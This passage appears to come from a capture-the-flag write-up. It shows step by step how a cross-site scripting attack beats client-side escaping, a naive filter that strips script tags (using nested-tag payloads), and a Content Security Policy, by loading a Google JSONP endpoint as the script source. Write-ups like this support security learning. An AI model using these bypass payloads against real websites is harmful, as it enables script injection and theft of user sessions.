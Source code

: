 ```html
<div class="uk-overflow-auto" id="cont">
  <p>Not Viewed</p>
  <p>&amp;lt;script&amp;gt;alert(1)&amp;lt;/script&amp;gt;</p>
  <p>&lt;script&gt;alert(1)&lt;/script&gt;</p>
</div>
```

Dang, sounds like our payload got escaped. Wait... why is the name escaped *twice*? Could it be that our input is also escaped once client-side?

The answer lies in the `js/index.js` file:

```js
axios.post('/api/help/add', {
  name: _.escape(name.value),
  msg: _.escape(msg.value),
  captch: _.escape(captch.value)
})
```

**Client-side escaping**, yikes! Let's get rid of this: patch the code by removing the \_.escape() calls and submit a new form.

```html
<div class="uk-overflow-auto" id="cont">
  <p>Not Viewed</p>
  <p>&lt;script&gt;alert(1)&lt;/script&gt;</p>
  <p>alert(1)</p>
</div>
```

This time, the `<script>` tags got removed. It might just be a dumb string replacement, in which case let's try with `<scr<script>ipt>alert(1)</sc</script>ript>`.

```html
<div class="uk-overflow-auto" id="cont">
  <p>Not Viewed</p>
  <p>a</p>
  <p><script>alert(1)</script></p>
</div>
```

It worked! But wait... where's our alert? Let's open up the web console:

> Refused to execute inline script because it violates the following Content Security Policy directive: "script-src 'self'  *.google.com *.gstatic.com". Either the 'unsafe-inline' keyword, a hash ('sha256-bhHHL3z2vDgxUt0W3dWQOrprscmda2Y5pLsLg4GF+pI='), or a nonce ('nonce-...') is required to enable inline execution.

Riiight, the CSP won't let us inject inline script. What we can inject, on the other hand, is a script whose src attribute points to something Google-related; a **Google JSONP endpoint**.

For instance, https://accounts.google.com/o/oauth2/revoke?callback=alert(31337); returns a script beginning with our payload, `alert(31337)`. Let's try it out:

```html
<scri<script>pt src="https://accounts.google.com/o/oauth2/revoke?callback=alert(31337)"></scri</script>pt>
```
